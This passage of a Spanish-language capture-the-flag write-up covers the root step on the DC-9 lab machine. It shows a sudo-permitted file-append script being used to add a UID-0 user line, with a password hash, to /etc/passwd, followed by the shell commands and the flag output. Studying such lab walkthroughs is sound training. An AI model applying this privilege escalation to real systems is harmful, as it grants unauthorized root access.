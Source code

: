Si buscamos desde la raiz el archivo “test.py” vemos que es un script de python que lo que hace es leer el contenido de un archivo y lo agrega en otro.

```bash
fredf@dc-9:~$ find / -name test.py 2>/dev/null
/opt/devstuff/test.py
/usr/lib/python3/dist-packages/setuptools/command/test.py
fredf@dc-9:~$ ls -la /opt/devstuff/test.py
-rw-r--r-- 1 root root 250 Dec 29  2019 /opt/devstuff/test.py
fredf@dc-9:~$ cat /opt/devstuff/test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

Sabiendo esto podríamos agregar un nuevo usuario root al sistema y almacenarlo en el /etc/passwd.

Con openssl creamos una contraseña y usamos el script para agregar el contenido al /etc/passwd.

```bash
fredf@dc-9:~$ ls
new_user
fredf@dc-9:~$ cat new_user 
eddie:$1$Hl0PYCqH$7g.XOEFmhjJYfenXIL/Nj1:0:0:root:/root:/bin/bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test new_user /etc/passwd
fredf@dc-9:~$ su eddie
Password:    
root@dc-9:/home/fredf# cat /root/theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)
```